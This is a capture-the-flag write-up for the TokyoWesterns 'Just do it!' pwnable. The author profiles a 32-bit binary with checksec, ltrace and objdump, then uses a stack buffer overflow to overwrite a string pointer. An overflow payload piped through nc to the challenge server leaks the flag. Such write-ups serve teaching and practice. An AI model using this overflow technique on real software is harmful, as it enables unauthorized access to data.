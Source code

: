 #Just do it! (Pwnable)

This challenge was not very hard. I started by retrieving informations of the binary.
<pre><code class="bash">$ mv just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa just_do_it

$ ls -lh just_do_it 
-rwxr-xr-x 1 quentin quentin 7,7K sept.  4 10:04 just_do_it

$ file just_do_it 
just_do_it: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped

$ ./checksec.sh/checksec --file just_do_it 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	just_do_it
</code></pre>

From the protection field, only the NX bit is enable, not stripped, dynamically linked and the size is 7,7K.
I then did some tests to see how the binary works. But at the first try I get an error "file open error. : No such file or directory". After a check with ltrace, the binary try to open a file "flag.txt" and exit if it can't.
<pre><code class="bash">$ echo toto>flag.txt

$ ./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
toto
Invalid Password, Try Again!

$ ltrace ./just_do_it 
__libc_start_main(0x80485bb, 1, 0xffbfb964, 0x8048710 <unfinished ...>
setvbuf(0xf76ee5a0, 0, 2, 0)                                                                = 0
setvbuf(0xf76eed60, 0, 2, 0)                                                                = 0
setvbuf(0xf76eecc0, 0, 2, 0)                                                                = 0
fopen("flag.txt", "r")                                                                      = 0x9524008
fgets("toto\n", 48, 0x9524008)                                                              = 0x804a080
puts("Welcome my secret service. Do yo"...Welcome my secret service. Do you know the password?
)                                                 = 53
puts("Input the password."Input the password.
)                                                                 = 20
fgets(toto
"toto\n", 32, 0xf76ee5a0)                                                             = 0xffbfb898
strcmp("toto\n", "P@SSW0RD")                                                                = 1
puts("Invalid Password, Try Again!"Invalid Password, Try Again!
)                                                        = 29
+++ exited (status 0) +++

$ ./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
P@SSW0RD
Invalid Password, Try Again!</code></pre>

After some test, the binary ask for a password. I found it (P@SSW0RD) thanks to ltrace but this is not enough to pass this step.

I then check the assembly code and I realized that it did not interest to pass the password request because it only change the output of the program.
<pre><code class="x86asm">$ objdump -d -M intel just_do_it
...
 80486e7:	75 08                	jne    80486f1 &lt;main+0x136&gt;
 80486e9:	a1 34 a0 04 08       	mov    eax,ds:0x804a034
 80486ee:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80486f1:	83 ec 0c             	sub    esp,0xc
 80486f4:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 80486f7:	e8 64 fd ff ff       	call   8048460 &lt;puts@plt&gt;
...</code></pre>

So I test an easy overflow on the password input.

<pre><code class="bash">$ python -c 'print "A"*20'|./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
Segmentation fault (core dumped)</code></pre>

A segfault with only 20 bytes? While the "fgets" function can read 32 bytes? (cf: ltrace on top) After some check with GDB, I found that the segfault occurs when the "put" function is executed because the overflow overwrite the address of the strings "Invalid Password, Try Again!" in the stack. So we can print every strings present in the binary thanks to that bug. After some others GDB test, I found a padding of 20 bytes before rewrite the address of the strings.

The first step done by the binary is:

\- Open the file "flag.txt"

\- Read it content and store it at an address of the data segment.

<pre><code class="x86asm">$ $ objdump -d -M intel just_do_it
...
 8048648:	83 ec 04             	sub    esp,0x4
 804864b:	ff 75 f0             	push   DWORD PTR [ebp-0x10]
 804864e:	6a 30                	push   0x30
 8048650:	68 80 a0 04 08       	push   0x804a080
 8048655:	e8 e6 fd ff ff       	call   8048440 &lt;fgets@plt&gt;
</code></pre>
At the address "0x08048650" we can see the instructions "push   0x804a080" which represent the buffer address of the file content pushed on the stack. So we will use it to display the content of the file "flag.txt".
<pre><code class="bash">$ python -c 'print "A"*20+"\x80\xa0\x04\x08"'|nc pwn1.chal.ctf.westerns.tokyo 12345
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}</code></pre>
Done.
